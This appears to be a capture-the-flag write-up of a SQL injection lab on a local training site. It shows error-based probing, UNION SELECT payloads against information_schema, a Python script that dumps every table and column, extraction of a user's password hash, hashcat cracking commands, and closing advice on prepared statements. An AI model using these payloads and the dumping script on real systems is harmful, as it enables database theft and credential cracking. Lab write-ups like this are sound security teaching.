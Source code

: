 # How

The page `/index.php?page=member` only has a basic field, but its HTML type isn't restricted.

I tried to submit `1` which returned :

```
ID: 1 
First name: one
Surname : me
```

Then I tried with `asdf` and it returned a suspicious output :

```
Unknown column 'asdf' in 'where clause'
```

This might look like any kind of error at a first glance.

But I noticed it's the exact raw output of a SQL Server.

Trying a `'` this time reveals that :

`You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '\'' at line 1`

This text gives us a hint about what would the SQL query could look like :

```sql
SELECT * FROM members WHERE id = '{input}';
```

So we could inject the following (basic) payload :

`1 OR 2`

So our query would look like this :

```sql
SELECT * FROM members WHERE id = '1 OR 2'
```

Which, you guessed it, always returns `true`. So this query basically returns all our rows in the table `members`.

This time I got the output :

```
ID: 1 OR 2 
First name: one
Surname : me

ID: 1 OR 2 
First name: two
Surname : me

ID: 1 OR 2 
First name: three
Surname : me

ID: 1 OR 2 
First name: Flag
Surname : GetThe
```

Since we do not know the SQL schema, we have to find it ourselves.

To find more informations, we can use what is called a 'Union Attack' which consists of maliciously using the `UNION` SQL keyword, which allows us to execute any arbitrary queries after.

Our payload is :

```sql
1 OR 2 UNION SELECT * FROM information_schema.tables;
```

Which will return all users, and all tables in the database. But I faced this issue :
```
The used SELECT statements have a different number of columns
```
So we have to find a way to get as much column in both queries.

We only gonna select the column `TABLE_NAME` and then pad it with as much columns we need.

In the sample above, we see that the returned ID was `1 OR 2`, which is the GET parameter in the URL, not the ID returned by the SQL query.

Knowing that we can deduce that the SQL query is :

```sql
SELECT first_name, surname FROM members WHERE ...
```

So we only need to pad one column :

```sql
1 OR 2 UNION SELECT table_name, 1 FROM information_schema.tables;
```

This returns a lot of tables, but the most interesting ones are :

```
ID: 1 OR 2 UNION SELECT table_name, 1 FROM information_schema.tables; 
First name: users
Surname : 1
ID: 1 OR 2 UNION SELECT table_name, 1 FROM information_schema.tables; 
First name: guestbook
Surname : 1
ID: 1 OR 2 UNION SELECT table_name, 1 FROM information_schema.tables; 
First name: list_images
Surname : 1
ID: 1 OR 2 UNION SELECT table_name, 1 FROM information_schema.tables; 
First name: vote_dbs
Surname : 1
```

I wrote this Python script to fetch the SQL schema of each tables :

```py
import requests
import re
from bs4 import BeautifulSoup

URL = 'http://localhost:4242/index.php?page=member&id={payload}&Submit=Submit#'
res = requests.get(URL.format(payload='1 OR 2 UNION SELECT table_name, column_name FROM information_schema.columns;'))

soup = BeautifulSoup(res.text, 'html5lib')

container = soup.find('div', {'class': 'container'})

tables = {}

TABLE_NAME_REGEX = re.compile(r'(?<=First name: )\w+(?=Surname)')
COLUMN_NAME = re.compile(r'(?<=Surname : )\w+$')

for pre in container.find_all('pre'):
    table_name = TABLE_NAME_REGEX.search(pre.text)[0]
    column_name = COLUMN_NAME.search(pre.text)[0]
    if tables.get(table_name) is None:
        tables[table_name] = []
    tables[table_name].append(column_name)

# Remove system tables (all uppercase)
for table in list(tables.keys()):
    if table.isupper():
        del tables[table]
# Remove false positive
del tables['one']
del tables['two']
del tables['three']
del tables['Flag']
del tables['db_default']

# Leak out all schemas
schemas = []
res = requests.get(URL.format(payload='1 OR 2 UNION SELECT schema_name, 1 FROM information_schema.schemata;'))
soup = BeautifulSoup(res.text, 'html5lib')
container = soup.find('div', {'class': 'container'})
for pre in container.find_all('pre'):
    schema = pre.text.split('Surname :')[0].split('First name: ')[1]
    if schema.startswith('Member'):
        schemas.append(schema)

for table, columns in tables.items():
    print(table, columns)

print(schemas)
```

This script reveals all tables along with their columns, and every schemas.

After testing a lot of queries I noticed that both `Commentaire` and `countersign` columns in the table `Member_Sql_Injection.users` contained fancy informations.

So I tried this payload :

```
/?page=member&id=1%20OR%202%20UNION%20SELECT%20countersign,Commentaire%20FROM%20Member_Sql_Injection.users;&Submit=Submit#
```

And I got this record :

```
ID: 1 OR 2 UNION SELECT countersign,Commentaire FROM Member_Sql_Injection.users; 
First name: 5ff9d0165b4f92b14994e5c685cdce28
Surname : Decrypt this password -> then lower all the char. Sh256 on it and it's good !
```

Bruteforcing the `md5` using `hashcat` with these commands :

1. echo -n '5ff9d0165b4f92b14994e5c685cdce28' > hash.md5
2. `hashcat 5ff9d0165b4f92b14994e5c685cdce28 -O -d 2 -m 0 -a 3 -1 '?l?u?d' '?1?1?1?1?1?1?1?1'`

Returns this after few seconds :

```
5ff9d0165b4f92b14994e5c685cdce28:FortyTwo                 
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
Hash.Target......: 5ff9d0165b4f92b14994e5c685cdce28
Time.Started.....: Tue Jun 27 16:06:54 2023 (1 min, 12 secs)
Time.Estimated...: Tue Jun 27 16:08:06 2023 (0 secs)
Kernel.Feature...: Optimized Kernel
Guess.Mask.......: ?1?1?1?1?1?1?1?1 [8]
Guess.Charset....: -1 ?l?u?d, -2 Undefined, -3 Undefined, -4 Undefined 
Guess.Queue......: 1/1 (100.00%)
Speed.#2.........:   129.5 GH/s (7.94ms) @ Accel:32 Loops:1024 Thr:256 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 9501759504384/218340105584896 (4.35%)
Rejected.........: 0/9501759504384 (0.00%)
Restore.Point....: 39845888/916132832 (4.35%)
Restore.Sub.#2...: Salt:0 Amplifier:4096-5120 Iteration:0-1024
Candidate.Engine.: Device Generator
Candidates.#2....: busNggRA -> BYAs5uKI
Hardware.Mon.#2..: Temp: 77c Fan: 61% Util: 99% Core:2715MHz Mem:10251MHz Bus:16
```

So, to get the flag we lowecase it :

* echo -n "FortyTwo" | tr '[:upper:]' '[:lower:]' | sha256sum

And we get the flag : `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`


# Fix

- Sanitize user's input by escaping each special characters
- Use prepared statements. Example in PHP:

```
$id = $_GET["id"];

$pdo = new PDO(
    dsn: "mysql:host=localhost;dbname=list_images;charset=utf-8;port=3306",
    username: "username",
    password: "password",
);
$stmt = $pdo->prepare("SELECT * FROM members WHERE id = ?");
$stmt->execute([$id]);
```
